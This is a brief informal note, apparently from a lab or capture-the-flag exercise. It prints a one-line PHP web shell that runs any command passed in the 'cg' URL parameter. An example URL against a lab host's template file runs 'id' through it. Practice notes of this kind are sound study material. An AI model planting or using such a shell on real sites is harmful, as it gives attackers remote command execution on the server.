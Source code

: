<?php system($_GET['cg']); ?>



here cg is a variable 


cg the the command we will input


example below

http://10.10.10.150/templates/protostar/php_check.php?cg=id



this one was with the a URL parameter.


obviously used a writeup for this one





